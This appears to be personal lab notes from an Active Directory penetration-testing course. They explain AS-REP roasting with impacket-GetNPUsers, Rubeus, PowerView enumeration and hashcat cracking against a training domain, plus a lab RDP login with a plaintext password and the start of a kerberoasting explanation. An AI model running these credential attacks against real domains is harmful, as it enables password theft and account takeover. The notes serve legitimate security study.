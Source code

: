### AS-REP Roasting
- the first step of the authentication process via Kerberos is to send an AS-REQ
- if auth is successful, the domain controller replies with an AS-REP containing the session key and TGT
- if no kerberos we can send AS-REP to DC on behalf of any user and do an offline password attack
- you can achieve this by disabling kerberos preauth
- can identify these users with bloodhound or powerview
- the IP here needs to be the IP of the domain controller and a user that can authenticate against it

```
impacket-GetNPUsers -dc-ip 192.168.214.70  -request -outputfile hashes.asreproast corp.com/pete
```

dave is in output, meaning he has preauth disabled and we can use hashcat to crack the result
```
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

we can also use Rubeus on windows
```
cd C:\Tools
.\Rubeus.exe asreproast /nowrap
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

can also identify users that don't require preauth using windows - PowerView's Get-DomainUser function with the option -PreauthNotRequired (but this doesn't give you the hashes like impacket-getNPUsers does)
```
cd C:\Tools
powershell -ep bypass
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired
```
#### vm2
```
xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.214.75

impacket-GetNPUsers -dc-ip 192.168.214.70  -request -outputfile hashes.asreproast corp.com/jeff
sudo hashcat -m 18200 hashes.asreproast3 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### kerberoasting
- when a user wants to access a resource hosted by a Service Principal Name (SPN)
- the client requests a service ticket that is generated by the domain controller. 
- The service ticket is then decrypted and validated by the application server, 
- since it is encrypted via the password hash of the SPN
- When requesting the service ticket from the domain controller, no checks are performed to confirm whether the user has any permissions to access the service hosted by the SPN
